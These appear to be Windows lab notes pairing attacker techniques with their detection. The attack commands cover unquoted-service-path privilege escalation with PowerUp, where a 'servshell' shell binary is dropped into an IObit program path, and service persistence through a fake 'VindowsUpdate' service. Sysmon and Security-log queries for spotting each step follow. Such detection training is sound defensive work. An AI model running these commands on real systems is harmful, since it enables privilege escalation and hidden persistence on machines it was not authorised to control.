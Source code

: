 ### Leveraging Unquoted Service Paths

```pwsh
Import-Module .\PowerUp.ps1
Get-UnquotedService
```

```pwsh
sc.exe qc IOBitUnSvr
...
BINARY_PATH_NAME   : C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe
```

```pwsh
copy .\servshell_443.exe 'C:\Program Files (x86)\IObit\IOBit.exe'
shutdown -r -t 0
```

`FileCreate` events

```pwsh
Get-SysmonEvent 11 "7/8/2021 10:49:33" "7/8/2021 10:49:35" | Format-List
```

Search across all `ProcessCreate` events where the Image field contains the wildcarded filename `IOBit.exe`

```pwsh
Get-SysmonEvent 1 | Where-Object { $_.properties[4].value -like "*IOBit.exe*" } | Format-List
```

# Windows Persistence

## Persistence on Disk

### Persisting via Windows Service

Creates a new service named "VindowsUpdate".
- `(start= auto)`: the service should start after the operating system boots, even if no users have logged on.
- `error= ignore` parameter indicates that service errors are logged without notifying the user or interrupting system startup.
- `binpath= C:\tools\windows_persistence\prst_servshell443.exe` details the location of the binary.

```pwsh
sc.exe create VindowsUpdate start= auto error= ignore binpath= C:\tools\windows_persistence\prst_servshell443.exe
shutdown -r -t 0
```

Query all events in the Security log

```pwsh
Get-SecurityEvent $null "10/29/2021 11:43:00" "10/29/2021 11:44:00" | Format-List
```

`Event Id 4697`: A service was installed in the system.

